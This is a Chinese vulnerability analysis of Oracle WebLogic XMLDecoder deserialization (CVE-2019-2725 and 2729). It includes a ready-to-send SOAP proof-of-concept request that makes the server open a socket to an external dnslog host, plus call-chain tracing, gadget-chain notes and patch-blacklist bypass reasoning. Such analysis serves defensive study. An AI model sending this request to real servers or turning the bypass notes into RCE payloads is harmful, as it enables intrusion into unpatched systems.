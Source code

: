 # CVE-2019-2725 & 2729 反序列化
影响版本
```
Oracle WebLogic Server 10.*
Oracle WebLogic Server 12.1.3
```
影响组件
```
bea_wls9_async_response.war
wsat.war 
```
## POC
```
POST /_async/AsyncResponseService HTTP/1.1
Host: 127.0.0.1:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 748
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java>
    <class>
        <string>java.net.Socket</string>
        <void>
            <string>d2r0h9.dnslog.cn</string>
            <int>80</int>
        </void>
    </class>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
## 原理
主要在于bea_wls9_async_response.war和wsat.war组件中处理soap消息时使用了XMLDecoder进行解析xml数据,触发了XMLDecoder反序列化漏洞,而这次也则绕过了CVE-2017-12071的补丁. 
### 调用链
>Tips:调试时不知道从哪打断点时直接在最后的ProcessBuilder类打断点,则可得到调用链,再反向寻找相关组件的触发流程.

调用链如下,从`Soapprocessor.process`开始处理soap数据,最后从`WorkContextXmlInputAdapter.readUTF`中进入`XMLDecoder.readObject`触发XMLDecoder反序列化.
![](4.png)

在`process`中根据请求类型为post,调用`handlePost`,在`handlePost`中主要为解析和封装soap消息,最后调用var7即WsSkel类的invoke方法.
![](5.png)
在`WsSkel.invoke`中实例化了一个ServerDispatcher对象,并设置了其Wsport和Connection属性,分别为请求的服务url和http,然后调用`ServerDispatcher.dispatch`.
![](6.png)
在`ServerDispatcher.dispatch`中调用` this.getHandlerChain().handleRequest(this.getContext(), var6);`,而getHandlerChain()即为`HandlerIterator`,即继续调用`HandlerIterator.handleRequest`.
![](7.png)
在`handleRequest`中var4赋为了`WorkAreaServerHandler`.
![](8.png)
然后调用了`WorkAreaServerHandler.handleRequest`,其中var3为通过`WlMessageContext var3 = WlMessageContext.narrow(var1)`获得的MessageContext对象.
![](9.png)
在`WorkAreaServerHandler.handleRequest`中,获取到soap的headers,然后实例化了一个`WorkContextMapInterceptor`对象,将获取到的WorkAreaHeader(var4)传入`new WorkContextXmlInputAdapter`中,再将该`WorkContextXmlInputAdapter`传入`receiveRequest`中.
![](10.png)
然后经过`WorkContextLocalMap.receiveRequest`调用`WorkContextEntryImpl.readEntry`,最后在`readEntry`中调用`WorkContextXmlInputAdapter.readUTF`.
![](11.png)
而在`readUTF`中则直接返回调用xmlDecoder.readObect()触发XMLDecoder反序列化.
![](12.png)
### Bypass CVE-2017-12071
该漏洞与weblogic之前的CVE-2017-3506&CVE-2017-12071原理类似,只不过入口点不一样,最后都是触发XMLDecoder反序列化漏洞,而该漏洞主要在于绕过了之前CVE-2017-12071补丁中的黑名单.
因为在之前的补丁中无法调用对象的对应方法,所以在该漏洞中的利用思路为在对象的构造函数中触发rce,在寻找利用链的过程中发现UnitOfWorkChangeSet类构造方法中直接调用了JDK原生类中的readObject()方法，并且其构造方法的接收参数恰好是字节数组，这就满足了上一个补丁中array标签的class属性值必须为byte的要求，再借助带index属性的void元素，完成向字节数组中赋值恶意序列化对象的过程，最终利用JDK 7u21反序列化漏洞造成了远程代码执行。
#### payload构造
在官方文档中可以看到class标签也可以指定实例化任意类,从而绕过了`object、new、method`关键字黑名单来实例化对象.
![](13.png)
因为`void`标签受限的原因,无法调用对象的相应方法,则从对象实例化过程中的构造函数下手,通过对象自动执行的构造函数来触发RCE,同时因为array标签的限制,构造函数的参数只能为bytes类型.思路则为利用class标签来实例化类,再利用void标签传入bytes类型的参数进行利用.

**利用链:**
Weblogic自带的1.6:jdk7u21 gadget  
12.1.3: org.slf4j.ext.EventData  
...  
...  
... 
# BypassCVE-2019-2725->2729
在2019-2725的补丁中继续把class加入了黑名单,而在2729中则是使用`<array method=”forName”>`来代替class标签,因为在weblogic自带的jdk1.6来说,这两个标签是相同效果的可以进行替换.而在2729的补丁中则使用了白名单,且对白名单的标签进行了属性的类型限制.

##
参考:  
https://www.freebuf.com/articles/web/202203.html  
https://paper.seebug.org/909/